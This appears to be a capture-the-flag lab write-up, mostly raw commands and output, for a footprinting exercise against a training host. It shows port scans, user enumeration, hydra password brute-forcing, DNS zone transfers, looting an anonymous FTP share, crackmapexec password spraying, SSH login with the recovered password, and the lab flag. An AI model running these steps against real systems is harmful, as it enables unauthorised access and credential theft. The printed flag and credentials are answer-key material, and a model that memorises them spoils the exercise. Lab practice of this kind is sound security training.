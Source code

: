 ## LAB MEDIUM

nmap -sC -sV -oA nmap $TARGET --stats-every=5s

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7108b0c4f3ca9757649770f9fec50c7b (RSA)
|   256 45c3b51463993d9eb32251e59776e150 (ECDSA)
|_  256 2ec2416646efb68195d5aa3523945538 (ED25519)
53/tcp   open  domain   ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.16.1-Ubuntu
110/tcp  open  pop3     Dovecot pop3d
|_pop3-capabilities: CAPA STLS USER PIPELINING RESP-CODES AUTH-RESP-CODE TOP SASL(PLAIN) UIDL
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=ubuntu
| Subject Alternative Name: DNS:ubuntu
| Not valid before: 2022-04-11T16:38:55
|_Not valid after:  2032-04-08T16:38:55
995/tcp  open  ssl/pop3 Dovecot pop3d
| ssl-cert: Subject: commonName=ubuntu
| Subject Alternative Name: DNS:ubuntu
| Not valid before: 2022-04-11T16:38:55
|_Not valid after:  2032-04-08T16:38:55
|_pop3-capabilities: UIDL RESP-CODES AUTH-RESP-CODE TOP CAPA USER SASL(PLAIN) PIPELINING
|_ssl-date: TLS randomness does not represent time
2121/tcp open  ftp
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (InlaneFTP) [10.129.201.127]
|     Invalid command: try being more creative
|     Invalid command: try being more creative
|   NULL: 
|_    220 ProFTPD Server (InlaneFTP) [10.129.201.127]
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port2121-TCP:V=7.93%I=7%D=11/22%Time=655E605D%P=x86_64-pc-linux-gnu%r(N
SF:ULL,31,"220\x20ProFTPD\x20Server\x20\(InlaneFTP\)\x20\[10\.129\.201\.12
SF:7\]\r\n")%r(GenericLines,8D,"220\x20ProFTPD\x20Server\x20\(InlaneFTP\)\
SF:x20\[10\.129\.201\.127\]\r\n500\x20Invalid\x20command:\x20try\x20being\
SF:x20more\x20creative\r\n500\x20Invalid\x20command:\x20try\x20being\x20mo
SF:re\x20creative\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


ftp $TARGET 2121
anonymous
530 Login incorrect.
Login failed.

sudo nmap -Pn -sV -sC -p25,143,110,465,587,993,995 $TARGET

PORT    STATE  SERVICE    VERSION
25/tcp  closed smtp
110/tcp open   pop3       Dovecot pop3d
|_pop3-capabilities: TOP PIPELINING SASL(PLAIN) CAPA USER RESP-CODES AUTH-RESP-CODE UIDL STLS
| ssl-cert: Subject: commonName=ubuntu
| Subject Alternative Name: DNS:ubuntu
| Not valid before: 2022-04-11T16:38:55
|_Not valid after:  2032-04-08T16:38:55
|_ssl-date: TLS randomness does not represent time
143/tcp closed imap
465/tcp closed smtps
587/tcp closed submission
993/tcp closed imaps
995/tcp open   ssl/pop3   Dovecot pop3d
|_pop3-capabilities: TOP SASL(PLAIN) CAPA USER RESP-CODES AUTH-RESP-CODE UIDL PIPELINING
| ssl-cert: Subject: commonName=ubuntu
| Subject Alternative Name: DNS:ubuntu
| Not valid before: 2022-04-11T16:38:55
|_Not valid after:  2032-04-08T16:38:55
|_ssl-date: TLS randomness does not represent time

smtp-user-enum -M RCPT -U user.list -D inlanefreight.htb -t $TARGET

hydra -L user.list -P password.list ftp://$TARGET -s 2121
hydra -L user.list -P password.list -f $TARGET pop3
hydra -L user.list -P password.list  -f $TARGET smtp

sudo nmap -Pn -sV -sC -p22,53,110,995,2121 $TARGET --stats-every=5s

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7108b0c4f3ca9757649770f9fec50c7b (RSA)
|   256 45c3b51463993d9eb32251e59776e150 (ECDSA)
|_  256 2ec2416646efb68195d5aa3523945538 (ED25519)
53/tcp   open  domain   ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.16.1-Ubuntu
110/tcp  open  pop3     Dovecot pop3d
|_pop3-capabilities: UIDL TOP CAPA SASL(PLAIN) PIPELINING STLS RESP-CODES USER AUTH-RESP-CODE
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=ubuntu
| Subject Alternative Name: DNS:ubuntu
| Not valid before: 2022-04-11T16:38:55
|_Not valid after:  2032-04-08T16:38:55
995/tcp  open  ssl/pop3 Dovecot pop3d
| ssl-cert: Subject: commonName=ubuntu
| Subject Alternative Name: DNS:ubuntu
| Not valid before: 2022-04-11T16:38:55
|_Not valid after:  2032-04-08T16:38:55
|_pop3-capabilities: SASL(PLAIN) CAPA PIPELINING UIDL AUTH-RESP-CODE RESP-CODES USER TOP
|_ssl-date: TLS randomness does not represent time
2121/tcp open  ftp      ProFTPD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

sudo nmap -Pn -sV -sC -A -p22,53,110,995,2121 $TARGET --stats-every=5s

sudo nmap $TARGET -p22,53,110,995,2121 -sV --script vuln

dig any inlanefreight.htb @$TARGET
ns.inlanefreight.htb

dig axfr inlanefreight.htb @$TARGET

inlanefreight.htb.	604800	IN	SOA	inlanefreight.htb. root.inlanefreight.htb. 2 604800 86400 2419200 604800
inlanefreight.htb.	604800	IN	NS	ns.inlanefreight.htb.
app.inlanefreight.htb.	604800	IN	A	10.129.200.5
dc1.inlanefreight.htb.	604800	IN	A	10.129.100.10
dc2.inlanefreight.htb.	604800	IN	A	10.129.200.10
int-ftp.inlanefreight.htb. 604800 IN	A	127.0.0.1
int-nfs.inlanefreight.htb. 604800 IN	A	10.129.200.70
ns.inlanefreight.htb.	604800	IN	A	127.0.0.1
un.inlanefreight.htb.	604800	IN	A	10.129.200.142
ws1.inlanefreight.htb.	604800	IN	A	10.129.200.101
ws2.inlanefreight.htb.	604800	IN	A	10.129.200.102
wsus.inlanefreight.htb.	604800	IN	A	10.129.200.80
inlanefreight.htb.	604800	IN	SOA	inlanefreight.htb. root.inlanefreight.htb. 2 604800 86400 2419200 604800

dig axfr app.inlanefreight.htb @$TARGET

vi axfr.txt

app.inlanefreight.htb
dc1.inlanefreight.htb
dc2.inlanefreight.htb
int-ftp.inlanefreight.htb
ns.inlanefreight.htb
un.inlanefreight.htb
ws1.inlanefreight.htb
ws2.inlanefreight.htb
wsus.inlanefreight.htb

for sub in $(cat axfr.txt);do dig axfr $sub @$TARGET;done

sudo nmap -sC -sV -p 2121 $TARGET

sudo nmap -sV -p 2121 -sC -A $TARGET

crackmapexec ftp $TARGET --port 21

sudo nmap $TARGET -p- -sV --stats-every=5s

PORT      STATE SERVICE      VERSION
22/tcp    open  ssh          OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
53/tcp    open  domain       ISC BIND 9.16.1 (Ubuntu Linux)
110/tcp   open  pop3         Dovecot pop3d
995/tcp   open  ssl/pop3     Dovecot pop3d
2121/tcp  open  ccproxy-ftp?
30021/tcp open  ftp

sudo nmap -Pn -sV -sC -A -p30021 $TARGET --stats-every=5s

PORT      STATE SERVICE VERSION
30021/tcp open  ftp     ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x   2 ftp      ftp          4096 Apr 18  2022 simon

wget -m --no-passive ftp://anonymous:anonymous@$TARGET:30021

cat 10.129.201.127\:30021/simon/mynotes.txt 
234987123948729384293
+23358093845098
ThatsMyBigDog
Rock!ng#May
Puuuuuh7823328
8Ns8j1b!23hs4921smHzwn
237oHs71ohls18H127!!9skaP
238u1xjn1923nZGSb261Bs81

vi simon_password.list

crackmapexec ssh $TARGET -u simon -p simon_password.list

SSH         10.129.201.127  22     10.129.201.127   [+] simon:8Ns8j1b!23hs4921smHzwn 

ssh simon@$TARGET
8Ns8j1b!23hs4921smHzwn

cat flag.txt 
HTB{1qay2wsx3EDC4rfv_M3D1UM}